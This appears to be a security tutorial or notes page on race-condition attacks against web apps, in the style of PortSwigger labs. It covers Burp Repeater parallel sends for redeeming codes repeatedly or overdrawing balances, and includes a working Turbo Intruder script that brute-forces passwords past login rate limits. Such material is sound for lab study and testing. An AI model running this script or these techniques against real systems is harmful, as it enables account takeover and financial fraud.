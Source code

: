 ## Submitting a form multiple times using Burp repeater
1. Create a group and duplicate tabs within it.
2. Click the drop-down arrow by the side of the Send button and select "Send group in parallel"
3. Click Send group. Repeater sends all of the requests from the grouped tabs.
    
        Using a redeem code multiple times
        Rating a product multiple times
        Withdrawing or transferring cash in excess of your account balance
        Reusing a single CAPTCHA solution

## Bypassing Rate limiting using Turbo Intruder

Turbo Intruder is suited to more complex attacks, such as ones that require multiple retries, staggered request timing, or an extremely large number of requests.

### Probe for clues
1. Observe that after (x) number of concurent failed login attempts, you're temporarily locked out.

2. Send the group of requests again in parallel.

3. Study the responses. Notice that although you have triggered the account lock, more than (x) requests received the normal Invalid username and password response.

4. Infer that if you're quick enough, you're able to submit more than three login attempts before the account lock is triggered.

### Proof-of-concept
1. Highlight the part you wanna brute-force (password=%s)
2. Right-click and select Extensions > Turbo Intruder > Send to turbo intruder.
3. From the drop-down menu, select the examples/race-single-packet-attack.py template
4. In the Python editor, edit the template so that your attack queues the request once using each of the candidate passwords. For simplicity, you can copy the following example:

'

    def queueRequests(target, wordlists):
    
        # as the target supports HTTP/2, use engine=Engine.BURP2 and concurrentConnections=1 for a single-packet attack
        engine = RequestEngine(endpoint=target.endpoint,
                               concurrentConnections=1,
                               engine=Engine.BURP2
                               )
        
        # assign the list of candidate passwords from your clipboard
        passwords = wordlists.clipboard
        
        # queue a login request using each password from the wordlist
        # the 'gate' argument withholds the final part of each request until engine.openGate() is invoked
        for password in passwords:
            engine.queue(target.req, password, gate='1')
        
        # once every request has been queued
        # invoke engine.openGate() to send all requests in the given gate simultaneously
        engine.openGate('1')
    
    
    def handleResponse(req, interesting):
        table.add(req)
        
Add Multi-endpoint Race Conditions
https://www.youtube.com/watch?v=SvpxBM7s-G4

Single-endpoint Race Conditions
https://portswigger.net/web-security/race-conditions/lab-race-conditions-single-endpoint

# Refrences
https://portswigger.net/web-security/race-conditions

https://portswigger.net/research/the-single-packet-attack-making-remote-race-conditions-local

https://sakurity.com/blog/2015/05/21/starbucks.html

https://github.com/TheHackerDev/race-the-web
